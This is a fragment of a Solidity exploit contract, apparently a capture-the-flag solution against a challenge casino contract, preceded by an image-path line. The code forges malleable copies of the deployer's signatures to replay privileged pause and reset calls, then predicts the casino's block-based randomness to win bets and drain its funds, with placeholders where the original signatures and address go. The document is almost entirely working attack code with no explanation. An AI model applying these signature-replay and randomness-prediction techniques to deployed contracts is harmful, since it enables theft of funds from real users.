 ```solidity
        bytes32 r;
        bytes32 s;
        uint8 v;
        assembly {
            r := mload(add(signature, 32))
            s := mload(add(signature, 64))
            v := byte(0, mload(add(signature, 96)))
        }
        s |= bytes32((uint256(v) % 27) << 255);
        return abi.encodePacked(r, s);
    }

    receive() external payable {
        console.log("Received:\t", msg.value);
    }

    function attack() external payable {
        console.log("============ INITIAL STATE ===============");
        console.log("PLAYER funds:\t", address(challenge.PLAYER()).balance / 1e18);
        console.log("CASINO funds:\t", address(challenge.CASINO()).balance / 1e18);

        bytes memory origSignature = hex"<ORIGINAL DEPLOYER SIGNATURE FOR PAUSE>";
        bytes memory newSignature = malleability(origSignature);
        console.logBytes(newSignature);

        casino.pause(newSignature, 0x5365718353c0589dc12370fcad71d2e7eb4dcb557cfbea5abb41fb9d4a9ffd3a);
        casino.deposit{value: 0.9 ether}(address(this));

        console.log("============ DEPOSIT ===============");
        console.log("PLAYER funds:\t", casino.balances(address(this)) / 1e18);
        console.log("CASINO funds:\t", address(challenge.CASINO()).balance / 1e18);

        uint256 targetBalance = uint256(int256(-99.9 ether - 1 wei));
        console.log("Target balance:\t", targetBalance);
        
        while (casino.balances(address(this)) < targetBalance) {
            uint256 random = uint256(keccak256(abi.encode(49_479, block.number, casino.totalBets())));
            if (random % 2 != 1) {
                casino.bet{gas: 50_000}(0);
                continue;
            }

            uint256 bet = casino.balances(address(this));
            if (bet > targetBalance - bet) { bet = targetBalance - bet; }
            casino.bet{gas: 50_000}(bet);

            console.log("============ BET ===============");
            console.log("PLAYER funds:\t", casino.balances(address(this)) / 1e18);
            console.log("CASINO funds:\t", address(challenge.CASINO()).balance / 1e18);
        }

        origSignature = hex"<ORIGINAL DEPLOYER SIGNATURE FOR RESET>";
        newSignature = malleability(origSignature);
        casino.reset(newSignature, payable(<ORIGINAL SYSTEM ADDRESS FROM SIGNATURE>), 1 ether, 0x7867dc2b606f63c4ad88af7e48c7b934255163b45fb275880b4b451fa5d25e1b);
        
        console.log("============ RESET ===============");
        console.log("PLAYER funds:\t", address(challenge.PLAYER()).balance / 1e18);
        console.log("CASINO funds:\t", address(challenge.CASINO()).balance / 1e18);
    }
}
```